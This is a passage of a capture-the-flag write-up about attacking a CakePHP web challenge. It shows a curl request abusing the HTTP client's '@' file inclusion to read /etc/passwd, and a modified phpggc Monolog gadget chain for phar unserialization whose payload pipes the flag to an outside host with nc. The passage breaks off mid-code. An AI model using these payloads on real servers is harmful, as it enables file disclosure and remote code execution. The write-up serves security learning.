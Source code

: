 

#### Arbitrary File Read

When browsing the issue of the cakephp github, I came to [this issue](https://github.com/cakephp/cakephp/issues/6540). The cakephp http client bahaves [similarlly to `curl`](https://stackoverflow.com/a/12667839). Both of them use `@` to include local files. It's also [documented on their website](https://book.cakephp.org/3.0/en/core-libraries/httpclient.html#creating-multipart-requests-with-files).

Now we can read arbitrary files on the server. Just send a POST request with the data array. Don't forget the filename should be prepended with `@`.


```shell
curl 'http://13.230.134.135/?url=http://240.240.240.240:3310&data[]=@/etc/passwd' -X POST

```
Let's read some files which may contain some juicy information:

- /etc/apache2/sites-enabled/000-default.conf
- /etc/passwd
- /proc/self/cmdline
- /flag (cannot read)
- /read_flag (because other web challenges use `/read_flag` to read the flag)

Unfortunately none of them is useful. We still need shell.

#### phar unserialization to RCE

Trace [a little deeper](https://github.com/cakephp/cakephp/blob/master/src/Http/Client/FormData.php#L157). The `@`  syntax uses PHP `file_get_contents` API. Therefore we can use PHP wrappers, but it's still not enough for a shell.

Then @Kaibro and @ysc mentioned that it's possible to use `phar://` wrappers to triiger PHP gadget chains. I actually don't know unserilization can be so powerful! In face phar unsafe unserialization is one of [Orange's 2017 HITCON challenges](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017). However when we found this is a promising solution, only 10 minutes left in the competition...... It's pity we don't solve it in the competition.

Anyway, let's leveraging [phpggc](https://github.com/ambionics/phpggc) to create a PHP Gadget Chains (thanks to @ysc). One of the dependency of CakePHP is monolog 1.23. We can use phpggc [Monolog/RCE1](https://github.com/ambionics/phpggc/blob/master/gadgetchains/Monolog/RCE/1/chain.php)! For the deatils of how to create a `phar` file please refer to [here](https://rdot.org/forum/showthread.php?t=4379) and [here](https://delcoding.github.io/2018/09/defcamp-writeup2/).

We modify the `./phpggc/gadgetchains/Monolog/RCE/1/chain.php` to create a phar exploit:


```php
<?php
namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {   
        $code = "/read_flag | nc 240.240.240.240 1337";
        $a= new \Monolog\Handler\SyslogUdpHandler(
            new \Monolog\Handler\BufferHandler(
                ['current', 'system'],
                [$code, 'level' => null]
            )
        );
        unlink('/tmp/exp.phar');
        $p = new \Phar('/tmp/exp.phar', 0); 
```